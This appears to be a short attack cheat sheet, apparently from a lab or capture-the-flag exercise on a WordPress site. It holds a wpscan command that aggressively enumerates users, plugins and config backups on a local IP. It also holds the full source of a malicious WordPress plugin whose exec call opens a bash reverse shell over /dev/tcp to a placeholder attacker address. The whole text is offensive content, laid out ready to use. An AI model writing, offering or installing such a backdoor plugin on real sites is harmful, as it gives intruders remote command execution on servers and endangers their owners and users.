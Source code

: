 ### Scan for vulnerabilities and User

```bash
wpscan --url http://192.168.0.79 --enumerate u,ap,at,cb,dbe --plugins-detection aggressive
```

### Reverse Shell Plugin

```bash
<?php

/**
* Plugin Name: Wordpress  Reverse Shell
* Author: NAME
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/x.x.x.x/xxxx 0>&1'")
?>
```



